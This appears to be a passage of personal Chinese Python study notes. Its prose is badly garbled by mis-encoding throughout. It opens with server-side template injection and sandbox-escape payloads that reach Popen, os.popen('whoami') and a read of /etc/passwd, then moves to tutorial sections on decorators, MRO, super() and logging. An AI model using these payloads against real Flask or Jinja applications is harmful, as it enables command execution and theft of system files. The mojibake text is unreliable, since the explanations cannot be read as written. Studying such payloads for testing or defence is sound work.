利用subprocess.Popen()执行命令：().__class__.__bases__[0].__subclasses__()[396].__init__.__globals__['Popen'](["touch", "./456"])

<class '_frozen_importlib.BuiltinImporter'>类：
利用load_module()加载模å—os进行执行命令：().__class__.__bases__[0].__subclasses__()[84]['load_module']("os")["popen"]("ls").read()

利用linecache函数执行命令，有几个类都有这个函数：
linecache()这个函数中也引入了os模å—：().__class__.__bases__[0].__subclasses__()[259].__init__.__globals__['linecache'].os.popen('dir').read()

<class '_frozen_importlib_external.FileLoader'>类：
通过get_data函数读å–文件内容：().__class__.__bases__[0].__subclasses__()[94]["get_data"](0, "/etc/passwd")

os模å—执行命令:
通过config，调用os模å—：config.__class__.__init__.__globals__['os'].popen('whoami')
通过url_for，调用os：{url_for.__globals__.os.popen('whoami').read()
在已ç»åŠ è½½os模å—çš„å­ç±»é‡Œç›´æ¥è°ƒç”¨os模å—：''.__class__.__bases__[0].__subclasses__()[341].__init__.__globals__['os'].popen("ls -l").read()
```

`subprocess.Popen()`

`os.system()`


`linecache()`执行命令



解æ`{{().__class__.__bases__[0].__subclasses__()[%i].__init__.__globals__['__builtins__']}}`


>`__class__.__base__.__subclasses__()` 列表中通常ä¸ä¼šåŒ…å« `file` 类的å­ç±»ï¼Œå› ä¸ºåœ¨ Python 3 中，`file` 类已ç»è¢«ç§»é™¤ï¼Œä¸å†æ˜¯å†…置类å‹ã€‚
>
>在早期版本的 Python（Python 2.x）中，`file` 类用äºè¡¨ç¤ºæ–‡ä»¶å¯¹è±¡ï¼Œå¹¶ä½œä¸ºå†…置的文件 I/O ç±»å‹ã€‚ä½†ä» Python 3 开始，`file` 类被替代为内置的 `io` 模å—中的 `io.TextIOWrapper` å’Œ `io.BufferedIOBase` 等类。
>
>在 Python 3 中，文件 I/O æ“作应该使用 `open()` 函数æ¥æ‰“开文件，而ä¸æ˜¯ç›´æ¥ä½¿ç”¨ `file` 类。`open()` 函数返å›ä¸€ä¸ªæ–‡ä»¶å¯¹è±¡ï¼Œå®ƒæ˜¯ `io.TextIOWrapper` 或 `io.BufferedIOBase` çš„å®ä¾‹ï¼Œå¯ä»¥ç”¨äºè¿›è¡Œæ–‡ä»¶è¯»å†™æ“作。

>```
><class '_frozen_importlib.BuiltinImporter'>类：
>利用load_module()加载模å—os进行执行命令：().__class__.__bases__[0].__subclasses__()[84]['load_module']("os")["popen"]("ls").read()
>```
>
>这里的`load_module`是一个é™æ€æ–¹æ³•ï¼Œæ‰€ä»¥èƒ½å¤Ÿç›´æ¥é€šè¿‡ç±»è°ƒç”¨è€Œä¸ç”¨å®ä¾‹åŒ–对象

### waf绕过


## Python Flask框æ¶ç›¸å…³


## Python中@的用法

在Python中，`@`符å·è¢«ç”¨ä½œä¿®é¥°ç¬¦çš„标志。修饰符用äºä¿®æ”¹å‡½æ•°ã€æ–¹æ³•æˆ–类的行为，并且å¯ä»¥ä½¿ä»£ç æ›´åŠ ç®€æ´å’Œæ˜“读。修饰符是Python的一个强大特性，å¯ä»¥åœ¨ä¸ä¿®æ”¹åŸå§‹å‡½æ•°æˆ–类的情况下，通过附加é¢å¤–的功能æ¥æ‰©å±•å…¶è¡Œä¸ºã€‚

以下是`@`符å·åœ¨Python中的常è§ç”¨æ³•ï¼š

- 函数修饰符：将修饰符应用äºå‡½æ•°ï¼Œç”¨äºå¢åŠ æˆ–修改函数的功能。

```python
def my_decorator(func):
    def wrapper():
        print("Something is happening before the function is called.")
        func()
        print("Something is happening after the function is called.")
    return wrapper

@my_decorator
def say_hello():
    print("Hello!")

say_hello()
```


- 类方法修饰符：将修饰符应用äºç±»çš„方法，用äºå®šä¹‰é™æ€æ–¹æ³•ã€ç±»æ–¹æ³•æˆ–å±æ€§ã€‚

```python
class MyClass:
    @staticmethod
    def static_method():
        print("This is a static method.")

    @classmethod
    def class_method(cls):
        print("This is a class method.")

    @property
    def my_property(self):
        return "This is a property."

MyClass.static_method()
MyClass.class_method()

my_instance = MyClass()
print(my_instance.my_property)
```


- 类修饰符：将修饰符应用äºç±»ï¼Œç”¨äºä¿®æ”¹ç±»çš„行为或特性。类修饰符å¯ä»¥åœ¨ç±»å®šä¹‰ä¹‹å‰ä½¿ç”¨ï¼Œä½œç”¨äºæ•´ä¸ªç±»ã€‚当定义类时，修饰符函数会在类创建时被调用，且åªè°ƒç”¨ä¸€æ¬¡ã€‚

```python
def add_method_to_class(cls):
    print("add_method_to_class")
    def hello(self):
        print("Hello from the class method!")
    cls.say_hello = hello
    return cls

@add_method_to_class
class MyClass:
    pass

my_instance = MyClass()
my_instance.say_hello()
"""
结æœ
add_method_to_class
Hello from the class method!
"""
```

## Python super函数的ç†è§£

### MRO

方法解æ顺åºï¼ˆMethod Resolution Order），简称 MRO

Python å‘展至今，ç»å†äº†ä»¥ä¸‹ 3 ç§ MRO 算法，分别是：

1. ä»å·¦å¾€å³ï¼Œé‡‡ç”¨æ·±åº¦ä¼˜å…ˆæœç´¢ï¼ˆDFS）的算法，称为旧å¼ç±»çš„ MROï¼›
2. 自 Python 2.2 版本开始，新å¼ç±»åœ¨é‡‡ç”¨æ·±åº¦ä¼˜å…ˆæœç´¢ç®—法的基础上，对其åšäº†ä¼˜åŒ–ï¼›
3. 自 Python 2.3 版本，对新å¼ç±»é‡‡ç”¨äº† C3 ç®—æ³•ã€‚ç”±äº Python 3.x 仅支æŒæ–°å¼ç±»ï¼Œæ‰€ä»¥è¯¥ç‰ˆæœ¬åªä½¿ç”¨ C3 算法。

#### æ—§å¼ç±»MRO算法

在使用旧å¼ç±»çš„ MRO 算法时，以下é¢ä»£ç ä¸ºä¾‹:

```python
class A:
    def method(self):
        print("CommonA")
class B(A):
    pass
class C(A):
    def method(self):
        print("CommonC")
class D(B, C):
    pass

D().method()
```

通过分æå¯ä»¥æƒ³åˆ°ï¼Œæ­¤ç¨‹åºä¸­çš„ 4 个类是一个“è±å½¢â€ç»§æ‰¿çš„关系，当使用 D 类对象访问 method() 方法时，根æ®æ·±åº¦ä¼˜å…ˆç®—法，æœç´¢é¡ºåºä¸º`D->B->A->C->A`。

æ—§å¼ç±»çš„ MRO å¯é€šè¿‡ä½¿ç”¨`inspect`模å—中的`getmro(ç±»å)`函数直æ¥è·å–。例如 `inspect.getmro(D)` 表示è·å– D 类的 MRO。

因此，使用旧å¼ç±»çš„ MRO 算法最先æœç´¢å¾—到的是基类 A 中的`method()`方法，å³åœ¨ Python 2.x 版本中，此程åºçš„è¿è¡Œç»“æœä¸ºï¼š

```
CommonA
```

但是，这个结æœæ˜¾ç„¶ä¸æ˜¯æƒ³è¦çš„，我们希望æœç´¢åˆ°çš„是 C 类中的`method()`方法。

#### æ–°å¼ç±»MRO算法

为解决旧å¼ç±» MRO 算法存在的问题，Python 2.2 版本æ¨å‡ºäº†æ–°çš„计算新å¼ç±» MRO 的方法，它ä»ç„¶é‡‡ç”¨ä»å·¦è‡³å³çš„深度优先éå†ï¼Œä½†æ˜¯å¦‚æœéå†ä¸­å‡ºç°é‡å¤çš„类，åªä¿ç•™æœ€å一个。

ä»ä»¥ä¸Šé¢ç¨‹åºä¸ºä¾‹ï¼Œé€šè¿‡æ·±åº¦ä¼˜å…ˆéå†ï¼Œå…¶æœç´¢é¡ºåºä¸º`D->B->A->C->A`，由äºæ­¤é¡ºåºä¸­æœ‰ 2 个 A，因此仅ä¿ç•™å一个，简化å得到最终的æœç´¢é¡ºåºä¸º`D->B->C->A`。

æ–°å¼ç±»å¯ä»¥ç›´æ¥é€šè¿‡ `ç±»å.__mro__ `çš„æ–¹å¼è·å–类的 MRO，也å¯ä»¥é€šè¿‡ `ç±»å.mro()` çš„å½¢å¼ï¼Œæ—§å¼ç±»æ˜¯æ²¡æœ‰` __mro__` å±æ€§å’Œ`mro() `方法的。

å¯ä»¥çœ‹åˆ°ï¼Œè¿™ç§ MRO æ–¹å¼å·²ç»èƒ½å¤Ÿè§£å†³â€œè±å½¢â€ç»§æ‰¿çš„问题，但是å¯èƒ½ä¼šè¿åå•è°ƒæ€§åŸåˆ™ã€‚所谓å•è°ƒæ€§åŸåˆ™ï¼Œæ˜¯æŒ‡åœ¨ç±»å­˜åœ¨å¤šç»§æ‰¿æ—¶ï¼Œå­ç±»ä¸èƒ½æ”¹å˜åŸºç±»çš„ MRO æœç´¢é¡ºåºï¼Œå¦åˆ™ä¼šå¯¼è‡´ç¨‹åºå‘生异常。

例如，分æ如下程åºï¼š

```python
class X(object):
    pass
class Y(object):
    pass
class A(X,Y):
    pass
class B(Y,X):
    pass
class C(A, B):
    pass
```

通过进行深度éå†ï¼Œå¾—到æœç´¢é¡ºåºä¸º`C->A->X->object->Y->object->B->Y->object->X->object`，å†è¿›è¡Œç®€åŒ–（相åŒå–å者），得到`C->A->B->Y->X->object`

下é¢æ¥åˆ†æ这样的æœç´¢é¡ºåºæ˜¯å¦åˆç†ï¼Œæˆ‘们æ¥çœ‹ä¸‹å„个类中的 MRO：

- å¯¹äº A，其æœç´¢é¡ºåºä¸º A->X->Y->objectï¼›
- å¯¹äº B，其æœç´¢é¡ºåºä¸º B->Y->X->objectï¼›
- å¯¹äº C，其æœç´¢é¡ºåºä¸º C->A->B->X->Y->object。

å¯ä»¥çœ‹åˆ°ï¼ŒB å’Œ C 中，Xã€Y çš„æœç´¢é¡ºåºæ˜¯ç›¸å的，也就是说，当 B 被继承时，它本身的æœç´¢é¡ºåºå‘生了改å˜ï¼Œè¿™è¿å了å•è°ƒæ€§åŸåˆ™ã€‚

#### MRO C3

[为解决 Python 2.2 中 MRO 所存在的问题，Python 2.3 采用了 C3 方法æ¥ç¡®å®šæ–¹æ³•è§£æ顺åºã€‚多数情况下，如æœæŸäººæ到 Python 中的 MRO，指的都是 C3 算法。那么，C3 算法是æ€æ ·å®ç°çš„呢？](https://www.zhihu.com/tardis/zm/art/416584599?source_id=1005)

### super函数

在Python中，`super()`函数常用äºè°ƒç”¨çˆ¶ç±»ï¼ˆè¶…类）的方法。这个函数有两ç§å¸¸è§çš„使用方å¼ï¼šä¸€ç§æ˜¯åœ¨å­ç±»ä¸­è°ƒç”¨çˆ¶ç±»çš„方法，å¦ä¸€ç§æ˜¯åœ¨ä»»ä½•åœ°æ–¹è°ƒç”¨æŒ‡å®šç±»çš„父类或兄弟类的方法。下é¢æˆ‘将详细解释四ç§æƒ…况：

1. `super()`ä¸ä¼ å‚数：这ç§æƒ…况下，`super()`通常在类的方法内部使用，用æ¥å¼•ç”¨çˆ¶ç±»çš„方法。这ç§æ–¹å¼ä¸‹ï¼ŒPython会自动将`self`和当å‰çš„类传给`super()`。例如：

   ```python
   class MyParentClass(object):
       def __init__(self):
           print("Parent init")
   
   class SubClass(MyParentClass):
       def __init__(self):
           super().__init__()
           print("Subclass init")
   ```

   在这个例å­ä¸­ï¼Œ`SubClass`çš„`__init__`方法通过`super().__init__()`调用了`MyParentClass`çš„`__init__`方法。

2. `super()`传一个å‚数：`super()`åªä¼ é€’一个å‚数时，是一个ä¸ç»‘定的对象，ä¸ç»‘定的è¯å®ƒçš„方法是ä¸ä¼šæœ‰ç”¨çš„

   ```python
   class Base:
       def __init__(self):
           print('Base.__init__')
   
   class B(Base):
       def __init__(self):
           super().__init__()
           print('B.__init__')
   
   class C(Base):
       def __init__(self):
           super().__init__()
           print('C.__init__')
   
   
   class D(B, C):
       def __init__(self):
           super(B).__init__()  # 值传递一个å‚æ•°
           print('D.__init__')
   
   D()
   
   print(D.mro())
   """
   结æœ
   D.__init__
   [<class '__main__.D'>, <class '__main__.B'>, <class '__main__.C'>, <class '__main__.Base'>, <class 'object'>]
   """
   ```

   

3. `super()`传一个类对象和一个å®ä¾‹å¯¹è±¡å‚数：在这ç§æƒ…况下，`super(class, obj)`函数将返å›ä¸€ä¸ªä¸´æ—¶å¯¹è±¡ï¼Œè¿™ä¸ªå¯¹è±¡ç»‘定的是指定类的父类或兄弟类的方法。obj必须是classçš„å®ä¾‹æˆ–者是å­ç±»çš„å®ä¾‹ã€‚例如：

   ```python
   class A:
       def __init__(self):
           print("A's init invoked")
   
   class B(A):
       def __init__(self):
           print("B's init invoked")
   
   class C(B):
       def __init__(self):
           print("C's init invoked")
           super(B, self).__init__()
   
   c = C()
   ```

   在这个例å­ä¸­ï¼Œ`C`çš„`__init__`方法通过`super(B, self).__init__()`调用了`A`çš„`__init__`方法，而ä¸æ˜¯`B`çš„`__init__`方法。

4. `super()`传两个类对象å‚数：`super(class1, class2) `è¿™ç§æƒ…况下，第一个å‚数通常是å­ç±»ï¼Œç¬¬äºŒä¸ªå‚数是父类，用äºè·å–å­ç±»çš„兄弟类。这ç§ç”¨æ³•æ¯”较少è§ï¼Œä½†åœ¨å¤„ç†å¤æ‚的类继承关系时å¯èƒ½ä¼šç”¨åˆ°ã€‚例如：

   ```python
   class A:
       def who_am_i(self):
           print("I am A")
   
       @staticmethod
       def shout():
           print('shout A')
   
   class B(A):
       def who_am_i(self):
           print("I am B")
   
       @staticmethod
       def shout():
           print('shout B')
   
   class C(A):
       def who_am_i(self):
           print("I am C")
   
       @staticmethod
       def shout():
           print('shout C')
   
   class D(B, C):
       def who_am_i(self):
           print("I am D")
           print('super(B, D).who_am_i -> ' + str(type(super(B, D).who_am_i)))
           print('super(B, self).who_am_i -> ' + str(type(super(B, self).who_am_i)))
           super(B, D).who_am_i(self)
           super(B, D).shout()
           super(B, self).who_am_i()
   
   d = D()
   d.who_am_i()
   """
   结æœ
   I am D
   super(B, D).who_am_i -> <class 'function'>
   super(B, self).who_am_i -> <class 'method'>
   I am C
   shout C
   I am C
   """
   ```

   在这个例å­ä¸­ï¼Œ`D`çš„`who_am_i`方法通过`super(B, self).who_am_i()`调用了`C`çš„`who_am_i`方法，而ä¸æ˜¯`B`çš„`who_am_i`方法。`super()`传递两个类class1å’Œclass2时，得到的也是一个绑定的super对象，但这需è¦class2是class1çš„å­ç±»ï¼Œä¸”如æœè°ƒç”¨çš„方法需è¦ä¼ é€’å‚数时，必须手动传入å‚数，因为super()第二个å‚数是类时，得到的方法是函数类å‹çš„，使用时ä¸å­˜åœ¨è‡ªåŠ¨ä¼ å‚，第二个å‚数是对象时，得到的是绑定方法，å¯ä»¥è‡ªåŠ¨ä¼ å‚。

super本身其å®å°±æ˜¯ä¸€ä¸ªç±»ï¼Œ`super()`å…¶å®å°±æ˜¯è¿™ä¸ªç±»çš„å®ä¾‹åŒ–对象，它需è¦æ¥æ”¶ä¸¤ä¸ªå‚æ•° `super(class, obj)`,它返å›çš„是`obj`çš„MRO中`class`类的父类，举个例å­ï¼š

```python
class Base:
    def __init__(self):
        print('Base.__init__')

class A(Base):
    def __init__(self):
        super().__init__()
        print('A.__init__')

class B(Base):
    def __init__(self):
        super().__init__()
        print('B.__init__')


class C(Base):
    def __init__(self):
        super().__init__()
        print('C.__init__')

class D(A, B, C):
    def __init__(self):
        super(B, self).__init__()  # self是Bçš„å­ç±»Dçš„å®ä¾‹
        print('D.__init__')

D()
print(D.mro())
"""
Base.__init__
C.__init__
D.__init__
[<class '__main__.D'>, <class '__main__.A'>, <class '__main__.B'>, <class '__main__.C'>, <class '__main__.Base'>, <class 'object'>]
"""
```

`super(B, self).__init__()`:

`super`的作用是 **è¿”å›çš„是`obj`çš„MRO中`class`类的父类**,在这里就表示**è¿”å›çš„是`D`（也就是`self`）的MRO中`B`类的父类**：

1. è¿”å›çš„是`d`çš„MRO：`(D, A, B, C, Base, object)`
2. 中`B`类的父类：`C`

## hebust教务系统逆å‘

```
https://github.com/wi1shu7/fuck_hebust_login
```

```python
# 模å—化示例
class InformationHandler:
    def __init__(self):
        self.modules = {}

    def register_module(self, module_name, module_function):
        self.modules[module_name] = module_function

    def process_information(self, information):
        # å‡è®¾ä¿¡æ¯æ ¼å¼ä¸ºï¼š-[模å—] [å‚æ•°1] [å‚æ•°2] ...
        info_list = information.split()
        if len(info_list) < 2:
            raise ValueError("ä¿¡æ¯æ ¼å¼ä¸æ­£ç¡®ï¼")
        
        module_name = info_list[0][2:]  # å»æ‰å‰é¢çš„“-â€
        module_function = self.modules.get(module_name)
        if module_function is None:
            raise ValueError(f"找ä¸åˆ°å¯¹åº”的模å—：{module_name}")

        arguments = info_list[1:]
        return module_function(*arguments)

# 示例模å—函数
def module_function_example(param1, param2):
    return f"模å—函数示例：å‚æ•°1={param1}，å‚æ•°2={param2}"

if __name__ == "__main__":
    handler = InformationHandler()
    handler.register_module("模å—å示例", module_function_example)

    information1 = "-模å—å示例 å‚æ•°1 å‚æ•°2"
    result1 = handler.process_information(information1)
    print(result1)  # 输出：模å—函数示例：å‚æ•°1=å‚æ•°1，å‚æ•°2=å‚æ•°2

```

### logging模å—基本使用

转自：[https://www.cnblogs.com/wf-linux/archive/2018/08/01/9400354.html](https://www.cnblogs.com/wf-linux/archive/2018/08/01/9400354.html)
é…ç½®logging基本的设置，然å在æ§åˆ¶å°è¾“出日志，

```python
import logging
logging.basicConfig(level = logging.INFO,format = '%(asctime)s - %(name)s - %(levelname)s - %(message)s')
logger = logging.getLogger(__name__)
 
logger.info("Start print log")
logger.debug("Do something")
logger.warning("Something maybe fail.")
logger.info("Finish")
```

è¿è¡Œæ—¶ï¼Œæ§åˆ¶å°è¾“出，

    2016-10-09 19:11:19,434 - __main__ - INFO - Start print log
    2016-10-09 19:11:19,434 - __main__ - WARNING - Something maybe fail.
    2016-10-09 19:11:19,434 - __main__ - INFO - Finish

logging中å¯ä»¥é€‰æ‹©å¾ˆå¤šæ¶ˆæ¯çº§åˆ«ï¼Œå¦‚debugã€infoã€warningã€error以åŠcritical。通过赋予logger或者handlerä¸åŒçš„级别，开å‘者就å¯ä»¥åªè¾“出错误信æ¯åˆ°ç‰¹å®šçš„记录文件，或者在调试时åªè®°å½•è°ƒè¯•ä¿¡æ¯ã€‚

例如，我们将logger的级别改为DEBUG，å†è§‚察一下输出结æœï¼Œ

`logging.basicConfig(level = logging.DEBUG,format = '%(asctime)s - %(name)s - %(levelname)s - %(message)s')`

æ§åˆ¶å°è¾“出，å¯ä»¥å‘ç°ï¼Œè¾“出了debugçš„ä¿¡æ¯ã€‚

    2016-10-09 19:12:08,289 - __main__ - INFO - Start print log
    2016-10-09 19:12:08,289 - __main__ - DEBUG - Do something
    2016-10-09 19:12:08,289 - __main__ - WARNING - Something maybe fail.
    2016-10-09 19:12:08,289 - __main__ - INFO - Finish

`logging.basicConfig`函数å„å‚数：

`filename`：指定日志文件åï¼›

`filemode`：和file函数æ„义相åŒï¼ŒæŒ‡å®šæ—¥å¿—文件的打开模å¼ï¼Œ'w'或者'a'ï¼›

`format`：指定输出的格å¼å’Œå†…容，formatå¯ä»¥è¾“出很多有用的信æ¯ï¼Œ

    å‚数：作用
     
    %(levelno)s：打å°æ—¥å¿—级别的数值
    %(levelname)s：打å°æ—¥å¿—级别的å称
    %(pathname)s：打å°å½“å‰æ‰§è¡Œç¨‹åºçš„路径，其å®å°±æ˜¯sys.argv[0]
    %(filename)s：打å°å½“å‰æ‰§è¡Œç¨‹åºå
    %(funcName)s：打å°æ—¥å¿—的当å‰å‡½æ•°
    %(lineno)d：打å°æ—¥å¿—的当å‰è¡Œå·
    %(asctime)s：打å°æ—¥å¿—的时间
    %(thread)d：打å°çº¿ç¨‹ID
    %(threadName)s：打å°çº¿ç¨‹å称
    %(process)d：打å°è¿›ç¨‹ID
    %(message)s：打å°æ—¥å¿—ä¿¡æ¯

`datefmt`：指定时间格å¼ï¼ŒåŒtime.strftime()ï¼›

`level`：设置日志级别，默认为logging.WARNNING；

`stream`：指定将日志的输出æµï¼Œå¯ä»¥æŒ‡å®šè¾“出到sys.stderr，sys.stdout或者文件，默认输出到sys.stderr，当streamå’ŒfilenameåŒæ—¶æŒ‡å®šæ—¶ï¼Œstream被忽略；

### 将日志写入到文件

#### 将日志写入到文件

设置logging，创建一个FileHandler，并对输出消æ¯çš„æ ¼å¼è¿›è¡Œè®¾ç½®ï¼Œå°†å…¶æ·»åŠ åˆ°logger，然å将日志写入到指定的文件中，

```python
import logging
logger = logging.getLogger(__name__)
logger.setLevel(level = logging.INFO)
handler = logging.FileHandler("log.txt")
handler.setLevel(logging.INFO)
formatter = logging.Formatter('%(asctime)s - %(name)s - %(levelname)s - %(message)s')
handler.setFormatter(formatter)
logger.addHandler(handler)
 
logger.info("Start print log")
logger.debug("Do something")
logger.warning("Something maybe fail.")
logger.info("Finish")
```

log.txt中日志数æ®ä¸ºï¼Œ

    2016-10-09 19:01:13,263 - __main__ - INFO - Start print log2016-10-09 19:01:13,263 - __main__ - WARNING - Something maybe fail.2016-10-09 19:01:13,263 - __main__ - INFO - Finish

#### 将日志åŒæ—¶è¾“出到å±å¹•å’Œæ—¥å¿—文件

logger中添加StreamHandler，å¯ä»¥å°†æ—¥å¿—输出到å±å¹•ä¸Šï¼Œ

```python
import logging
logger = logging.getLogger(__name__)
logger.setLevel(level = logging.INFO)
handler = logging.FileHandler("log.txt")
handler.setLevel(logging.INFO)
formatter = logging.Formatter('%(asctime)s - %(name)s - %(levelname)s - %(message)s')
handler.setFormatter(formatter)
 
console = logging.StreamHandler()
console.setLevel(logging.INFO)
 
logger.addHandler(handler)
logger.addHandler(console)
 
logger.info("Start print log")
logger.debug("Do something")
logger.warning("Something maybe fail.")
logger.info("Finish")
```

å¯ä»¥åœ¨log.txt文件和æ§åˆ¶å°ä¸­çœ‹åˆ°ï¼Œ

    2016-10-09 19:20:46,553 - __main__ - INFO - Start print log
    2016-10-09 19:20:46,553 - __main__ - WARNING - Something maybe fail.
    2016-10-09 19:20:46,553 - __main__ - INFO - Finish

å¯ä»¥å‘ç°ï¼Œlogging有一个日志处ç†çš„主对象，其他处ç†æ–¹å¼éƒ½æ˜¯é€šè¿‡addHandler添加进å»ï¼Œlogging中包å«çš„handler主è¦æœ‰å¦‚下几ç§ï¼Œ

    handlerå称：ä½ç½®ï¼›ä½œç”¨
     
    StreamHandler：logging.StreamHandler；日志输出到æµï¼Œå¯ä»¥æ˜¯sys.stderr，sys.stdout或者文件
    FileHandler：logging.FileHandler；日志输出到文件
    BaseRotatingHandler：logging.handlers.BaseRotatingHandler；基本的日志å›æ»šæ–¹å¼
    RotatingHandler：logging.handlers.RotatingHandler；日志å›æ»šæ–¹å¼ï¼Œæ”¯æŒæ—¥å¿—文件最大数é‡å’Œæ—¥å¿—文件å›æ»š
    TimeRotatingHandler：logging.handlers.TimeRotatingHandler；日志å›æ»šæ–¹å¼ï¼Œåœ¨ä¸€å®šæ—¶é—´åŒºåŸŸå†…å›æ»šæ—¥å¿—文件
    SocketHandler：logging.handlers.SocketHandler；远程输出日志到TCP/IP sockets
    DatagramHandler：logging.handlers.DatagramHandler；远程输出日志到UDP sockets
    SMTPHandler：logging.handlers.SMTPHandler；远程输出日志到邮件地å€
    SysLogHandler：logging.handlers.SysLogHandler；日志输出到syslog
    NTEventLogHandler：logging.handlers.NTEventLogHandler；远程输出日志到Windows NT/2000/XP的事件日志
    MemoryHandler：logging.handlers.MemoryHandler；日志输出到内存中的指定buffer
    HTTPHandler：logging.handlers.HTTPHandler；通过"GET"或者"POST"远程输出到HTTPæœåŠ¡å™¨

#### 日志å›æ»š

使用RotatingFileHandler，å¯ä»¥å®ç°æ—¥å¿—å›æ»šï¼Œ

```python
import logging
from logging.handlers import RotatingFileHandler
logger = logging.getLogger(__name__)
logger.setLevel(level = logging.INFO)
#定义一个RotatingFileHandler，最多备份3个日志文件，æ¯ä¸ªæ—¥å¿—文件最大1K
rHandler = RotatingFileHandler("log.txt",maxBytes = 1*1024,backupCount = 3)
rHandler.setLevel(logging.INFO)
formatter = logging.Formatter('%(asctime)s - %(name)s - %(levelname)s - %(message)s')
rHandler.setFormatter(formatter)
 
console = logging.StreamHandler()
console.setLevel(logging.INFO)
console.setFormatter(formatter)
 
logger.addHandler(rHandler)
logger.addHandler(console)
 
logger.info("Start print log")
logger.debug("Do something")
logger.warning("Something maybe fail.")
logger.info("Finish")
```

å¯ä»¥åœ¨å·¥ç¨‹ç›®å½•ä¸­çœ‹åˆ°ï¼Œå¤‡ä»½çš„日志文件，

    2016/10/09  19:36               732 log.txt
    2016/10/09  19:36               967 log.txt.1
    2016/10/09  19:36               985 log.txt.2
    2016/10/09  19:36               976 log.txt.3

### 设置消æ¯çš„等级

å¯ä»¥è®¾ç½®ä¸åŒçš„日志等级，用äºæ§åˆ¶æ—¥å¿—的输出，

    日志等级：使用范围
     
    FATAL：致命错误
    CRITICAL：特别糟糕的事情，如内存耗尽ã€ç£ç›˜ç©ºé—´ä¸ºç©ºï¼Œä¸€èˆ¬å¾ˆå°‘使用
    ERROR：å‘生错误时，如IOæ“作失败或者è¿æ¥é—®é¢˜
    WARNING：å‘生很é‡è¦çš„事件，但是并ä¸æ˜¯é”™è¯¯æ—¶ï¼Œå¦‚用户登录密ç é”™è¯¯
    INFO：处ç†è¯·æ±‚或者状æ€å˜åŒ–等日常事务
    DEBUG：调试过程中使用DEBUG等级，如算法中æ¯ä¸ªå¾ªç¯çš„中间状æ€

### æ•è·traceback

Python中的traceback模å—被用äºè·Ÿè¸ªå¼‚常返å›ä¿¡æ¯ï¼Œå¯ä»¥åœ¨logging中记录下traceback，

代ç ï¼Œ

```python
import logging
logger = logging.getLogger(__name__)
logger.setLevel(level = logging.INFO)
handler = logging.FileHandler("log.txt")
handler.setLevel(logging.INFO)
formatter = logging.Formatter('%(asctime)s - %(name)s - %(levelname)s - %(message)s')
handler.setFormatter(formatter)
 
console = logging.StreamHandler()
console.setLevel(logging.INFO)
 
logger.addHandler(handler)
logger.addHandler(console)
 
logger.info("Start print log")
logger.debug("Do something")
logger.warning("Something maybe fail.")
try:
    open("sklearn.txt","rb")
except (SystemExit,KeyboardInterrupt):
    raise
except Exception:
    logger.error("Faild to open sklearn.txt from logger.error",exc_info = True)
 
logger.info("Finish")
```

æ§åˆ¶å°å’Œæ—¥å¿—文件log.txt中输出，

    Start print log
    Something maybe fail.
    Faild to open sklearn.txt from logger.error
    Traceback (most recent call last):
      File "G:\zhb7627\Code\Eclipse WorkSpace\PythonTest\test.py", line 23, in <module>
        open("sklearn.txt","rb")
    IOError: [Errno 2] No such file or directory: 'sklearn.txt'
    Finish

也å¯ä»¥ä½¿ç”¨logger.exception(msg,\_args)，它等价äºlogger.error(msg,exc\_info = True,\_args)，

å°†

    logger.error("Faild to open sklearn.txt from logger.error",exc_info = True)

替æ¢ä¸ºï¼Œ

    logger.exception("Failed to open sklearn.txt from logger.exception")

æ§åˆ¶å°å’Œæ—¥å¿—文件log.txt中输出，

    Start print log
    Something maybe fail.
    Failed to open sklearn.txt from logger.exception
    Traceback (most recent call last):
      File "G:\zhb7627\Code\Eclipse WorkSpace\PythonTest\test.py", line 23, in <module>
        open("sklearn.txt","rb")
    IOError: [Errno 2] No such file or directory: 'sklearn.txt'
    Finish

### 多模å—使用logging

主模å—mainModule.py，

    import logging
    import subModule
    logger = logging.getLogger("mainModule")
    logger.setLevel(level = logging.INFO)
    handler = logging.FileHandler("log.txt")
    handler.setLevel(logging.INFO)
    formatter = logging.Formatter('%(asctime)s - %(name)s - %(levelname)s - %(message)s')
    handler.setFormatter(formatter)
     
    console = logging.StreamHandler()
    console.setLevel(logging.INFO)
    console.setFormatter(formatter)
     
    logger.addHandler(handler)
    logger.addHandler(console)


​     
    logger.info("creating an instance of subModule.subModuleClass")
    a = subModule.SubModuleClass()
    logger.info("calling subModule.subModuleClass.doSomething")
    a.doSomething()
    logger.info("done with  subModule.subModuleClass.doSomething")
    logger.info("calling subModule.some_function")
    subModule.som_function()
    logger.info("done with subModule.some_function")

å­æ¨¡å—subModule.py，

    import logging
     
    module_logger = logging.getLogger("mainModule.sub")
    class SubModuleClass(object):
        def __init__(self):
            self.logger = logging.getLogger("mainModule.sub.module")
            self.logger.info("creating an instance in SubModuleClass")
        def doSomething(self):
            self.logger.info("do something in SubModule")
            a = []
            a.append(1)
            self.logger.debug("list a = " + str(a))
            self.logger.info("finish something in SubModuleClass")
     
    def som_function():
        module_logger.info("call function some_function")

执行之å，在æ§åˆ¶å’Œæ—¥å¿—文件log.txt中输出，

    2016-10-09 20:25:42,276 - mainModule - INFO - creating an instance of subModule.subModuleClass
    2016-10-09 20:25:42,279 - mainModule.sub.module - INFO - creating an instance in SubModuleClass
    2016-10-09 20:25:42,279 - mainModule - INFO - calling subModule.subModuleClass.doSomething
    2016-10-09 20:25:42,279 - mainModule.sub.module - INFO - do something in SubModule
    2016-10-09 20:25:42,279 - mainModule.sub.module - INFO - finish something in SubModuleClass
    2016-10-09 20:25:42,279 - mainModule - INFO - done with  subModule.subModuleClass.doSomething
    2016-10-09 20:25:42,279 - mainModule - INFO - calling subModule.some_function
    2016-10-09 20:25:42,279 - mainModule.sub - INFO - call function some_function
    2016-10-09 20:25:42,279 - mainModule - INFO - done with subModule.some_function

首先在主模å—定义了logger'mainModule'，并对它进行了é…置，就å¯ä»¥åœ¨è§£é‡Šå™¨è¿›ç¨‹é‡Œé¢çš„其他地方通过getLogger('mainModule')得到的对象都是一样的，ä¸éœ€è¦é‡æ–°é…置，å¯ä»¥ç›´æ¥ä½¿ç”¨ã€‚定义的该loggerçš„å­logger，都å¯ä»¥å…±äº«çˆ¶logger的定义和é…置，所谓的父å­logger是通过命åæ¥è¯†åˆ«ï¼Œä»»æ„以'mainModule'开头的logger都是它的å­logger，例如'mainModule.sub'。

